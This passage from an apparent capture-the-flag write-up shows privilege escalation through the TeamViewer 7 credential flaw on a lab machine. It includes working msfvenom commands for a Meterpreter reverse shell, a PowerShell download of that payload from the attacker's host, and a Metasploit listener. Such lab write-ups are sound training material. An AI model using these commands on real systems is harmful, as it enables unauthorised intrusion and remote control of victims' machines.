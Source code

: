 ~~~
d-----       10/29/2018   6:39 PM                Windows Media Player                                                  
d-----        9/15/2018   3:19 AM                Windows Multimedia Platform                                           
d-----        9/15/2018   3:28 AM                windows nt                                                            
d-----       10/29/2018   6:39 PM                Windows Photo Viewer                                                  
d-----        9/15/2018   3:19 AM                Windows Portable Devices                                              
d-----        9/15/2018   3:19 AM                WindowsPowerShell                                                     


PS C:\Program Files (x86)>
~~~

Everyone might not know, but Teamviewer version 7 was found to store session passwords encrypted with the same AES key and IV which can be used to decrypt passwords stored in the Windows registry.
Read more [here](https://nvd.nist.gov/vuln/detail/CVE-2019-18988) and [here](https://community.teamviewer.com/t5/Announcements/Specification-on-CVE-2019-18988/td-p/82264)

Here i took the easy route, since there is a metasploit module for this. I started by making an executeable shell with *msfvenom* 

~~~
┌──(kali㉿kali)-[~/boxes/remote]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=9002 -f exe > shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
~~~
{: .language-bash}

Hosting it with python3 http.server module, and downloading it to the remote box using powershells Invoke-WebRequest.

~~~
PS C:\tmp> iwr -uri http://10.10.14.40/shell.exe -outfile /tmp/shell.exe
~~~

Starting up *msfconsole* using the *multi/handler* module, setting the payload to *windows/meterpreter/reverse_tcp* and setting *LHOST* and *LPORT* options.

~~~
msf5 > use multi/handler                                  
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.40                                      
msf5 exploit(multi/handler) > set LPORT 9002
LPORT => 9002                                             
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.40:9002
~~~
